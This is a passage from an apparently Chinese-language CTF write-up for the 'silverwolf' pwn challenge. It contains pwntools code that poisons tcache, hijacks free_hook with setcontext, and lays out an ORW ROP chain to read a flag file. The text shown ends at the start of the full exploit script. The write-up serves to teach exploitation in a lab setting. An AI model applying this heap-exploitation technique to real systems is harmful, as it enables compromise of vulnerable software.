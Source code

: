 ```python
add(0x48)
edit(p64(0)*9)
for i in range(5):
    add(0x10)
add(0x18)
edit(p64(heap_base+0x50))#修改tcache的fd指针到tcache_entry
add(0x38)#申请到tcache_entry
```

剩下的就是对tcache\_entry中的指针进行布置了

```python
orw_addr = heap_base+0x1000#挑个纯净的环境放置orw链

payload = p64(free_hook)#这里是0x20大小堆块的下一个堆块的指针，意味着我们再申请一个0x20大小的堆块就分配到了free_hook
payload += p64(heap_base+0x2000)#这里是0x30大小堆块的下一个堆块的指针,这是作为rdi的堆块
payload += p64(heap_base+0x20A0)#rdi+0xa0这里布置的应该是需要劫持的栈地址
payload += p64(heap_base+0x2000)#0x50
payload += p64(orw_addr+0x60) + p64(orw_addr)#0x60和0x70放我们的prw链，因为比较长所以需要放两个堆块
payload += p64(0)
edit(payload)#写入
```

下面就是着手要实施了

```python
add(0x10)
edit(p64(setcontext))#劫持free_hook修改为free_hook

add(0x20)
edit("./flag\x00")#作为filename

add(0x30)
pl = p64(orw_addr) + p64(pop_rdi_ret+1)#用来控制rsp
edit(pl)

add(0x60)
edit(orw[:0x60])
add(0x50)
edit(orw[0x60:])#布置上orw链

delete()#触发
```

完整EXP
-----

```python
#encoding = utf-8
import os
import sys
import time
from pwn import *
from LibcSearcher import * 

context.log_level = "debug"
context.os = 'linux'
context.arch = 'amd64'

binary = "silverwolf"
libcelf = "libc-2.27.so"
ip = ""
port = ""
local = 1
arm = 0
core = 64
```